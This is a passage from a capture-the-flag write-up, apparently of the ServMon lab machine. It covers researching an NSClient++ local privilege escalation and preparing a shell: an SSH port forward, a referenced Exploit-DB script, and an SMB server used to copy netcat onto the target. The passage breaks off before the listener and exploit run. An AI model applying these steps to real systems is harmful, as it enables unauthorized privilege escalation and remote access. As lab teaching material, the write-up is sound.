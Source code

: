 ### 7. Research exploit
While looking into NSClient++ it was noted there is a local privilege escalation exploit for the application.
From https://10.129.103.173:8443/index.html#/console:
  
*When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.  
The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.  
Prerequisites:  
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.*
  
This exploit has been out a while, and has been adapted into an RCE exploit which doesn't need to reboot the system to succeed, instead it will just reload the service.

### 8. Get a shell
To exploit the application, an internal port forward is needed over SSH in order to access the NSClient++ application internally.
```ssh
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop]
└─$ ssh -L 127.0.0.1:9999:127.0.0.1:8443 Nadine@10.129.133.101
Nadine@10.129.133.101's password: 

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
Use the exploit at: https://www.exploit-db.com/exploits/48360. Note that the application takes a while to reload, so need to extend the wait time by about triple what it's currently hardcoded to, by changing the "count" variable in the script.
  
Need to copy netcat to the machine by starting an SMBserver from a folder hosting it.
```bash
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop/share]
└─$ sudo impacket-smbserver share $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Copy it across.
```shell
nadine@SERVMON c:\Temp>copy \\10.10.14.31\share\nc.exe .
        1 file(s) copied.
```
Start a listener and then run the script as follows:
```bash
┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop/share]
└─$ ls
nc.exe

┌──(kali㉿kali)-[10.10.14.31]-[~/Desktop]
```